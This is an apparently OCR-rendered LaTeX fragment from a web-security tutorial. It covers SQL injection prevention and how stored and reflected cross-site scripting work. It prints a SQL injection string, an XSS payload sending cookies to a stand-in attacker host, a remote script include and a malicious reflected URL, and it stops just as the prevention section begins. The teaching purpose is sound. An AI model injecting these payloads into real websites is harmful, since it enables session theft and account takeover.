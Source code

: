 \documentclass[a4paper]{article}
\begin{document}
This way, if an attacker will send \texttt{login' OR '1'='1} to the application,
it will not cause any harm, because the query would literally try to find a user
with name \texttt{login' OR '1'='1}.

\subsection{Cross-Site Scripting (XSS)}

\subsubsection{How it works}

Cross-Site Scripting is closely related to injection as it works by injecting a
malicious code to the application. There are two categories of this attack:
stored and reflected. 

The first one occurs when injected code is stored permanently on the server. An
example could be a comment on a forum, which contains Javascript code. If the
vulnerability is present, it will not be displayed on the page, but it will be
executed. It could be simple like:

\begin{verbatim}
<script>document.createElement('img').src = 'http://attackerswebsite.com/' +
document.cookie</script>
\end{verbatim}

This script would create a HTTP request to attacker's website with the victim's
cookies, which could contain for example very useful session token. It is also
possible to include much bigger scripts with:

\begin{verbatim}
<script src="http://attackerswebsite.com/evilscript.js"></script>
\end{verbatim}

Reflected attack works by reflecting the injected code off the trusted website.
For example, an attacker might send an URL with malicious code to the victim,
e.g:
\texttt{http://website.com/<script\%20src="http://attackerswebsite.com/
evilscript.js"></script>}. The URL itself is not dangerous, but the vulnerable
website might show an error message containing the URL, thus embedding it and
executing the injected script.

\subsubsection{How to prevent it}
\end{document}
